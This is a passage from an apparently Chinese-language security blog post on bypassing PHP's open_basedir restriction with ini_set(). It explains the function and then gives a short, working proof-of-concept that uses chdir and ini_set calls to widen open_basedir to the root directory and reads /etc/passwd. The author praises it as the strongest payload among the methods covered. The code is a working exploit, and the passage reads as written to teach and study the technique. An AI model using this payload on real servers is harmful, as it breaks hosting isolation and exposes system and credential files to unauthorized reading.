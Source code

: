 ```php
?>
</ol>
<?php endif;?>
```

# 利用ini_set()绕过
## ini_set()函数
ini_set()用来设置php.ini的值，在函数执行的时候生效，脚本结束后，设置失效。无需打开php.ini文件，就能修改配置。函数用法如下:
```php
ini_set ( string $varname , string $newvalue ) : string
```
- varname是需要设置的值
- newvalue是设置成为新的值
- 成功时返回旧的值，失败时返回 FALSE。

## POC
当前我们处在/var/www/html文件夹下，对应的POC为:
```php
<?php
mkdir('Von');  //创建一个目录Von
chdir('Von');  //切换到Von目录下
ini_set('open_basedir','..');  //把open_basedir切换到上层目录
chdir('..');  //以下这三步是把目录切换到根目录
chdir('..');
chdir('..');
ini_set('open_basedir','/');  //设置open_basedir为根目录(此时相当于没有设置open_basedir)
echo file_get_contents('/etc/passwd');  //读取/etc/passwd
```
可以看到，我们成功读取到了/etc/passwd
![](/blog_img/open_basedi_9.png)
至于POC的原理涉及到了PHP的底层实现，较为复杂，具体可以参考这几篇文章。  
[从PHP底层看open_basedir bypass](https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/#poc%E6%B5%8B%E8%AF%95)  
[php open_basedir 绕过poc分析](https://hexo.imagemlt.xyz/post/php-bypass-open-basedir/)  
[bypass open_basedir的新方法](https://xz.aliyun.com/t/4720)  
这个我个人感觉是所有方法中最强的Payload了，思路很骚，操作也不难。(当然前提是没有被过滤掉相关函数hhhh)

